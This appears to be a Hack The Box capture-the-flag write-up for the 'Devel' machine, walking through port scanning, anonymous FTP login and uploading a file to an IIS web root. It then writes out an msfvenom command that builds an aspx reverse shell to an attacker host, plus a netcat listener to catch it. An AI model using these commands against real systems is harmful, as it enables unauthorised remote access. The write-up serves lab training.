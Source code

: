 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Devel write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel.png"></p>

Recon:
Started the test out by running Rustscan to get the open ports. 
Command: rustscan -a 10.10.10.5
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/devel.jpg"></p>

|Status|IP|Port|
| -----|--|----------- |
| Open | 10.10.10.4 | 21 |
| Open | 10.10.10.4 | 80 |

PORT 21: 
Checked to see if FTP would allow for anonymous login
Command: ftp 10.10.10.5
Found that anonymous login was allowed 
I used the following creds anonymous:anonymous
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(6).jpg"></p>

PORT 80:
In FireFox I navigated to the page using the IP
I found the standard IIS7 page. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(7).jpg"></p>

USER SHELL:
Started by testing FTP and adding a test text file.
Command echo 'testing' > test.txt 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(5).jpg"></p>

while connected to the host via FTP I uploaded the file. 
Command: put test.txt. -> upload successful 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(8).jpg"></p>
I checked the web browser by going to 10.10.10.5/test.txt and found the file was showing in the browser. 

Once I knew that it was working I crafted a reverse shell using MSFvenom
Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f aspx > reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(9).jpg"></p>

Again used the put command 
Command put reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(1).jpg"></p>

I started a netcat listener in a new console tab making sure I use the same port as my payload. 
Command nc -nlvp 4444
Went back to FireFox and changed /test.txt to /reverse.aspx and I was able to get a shell back. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(2).jpg"></p>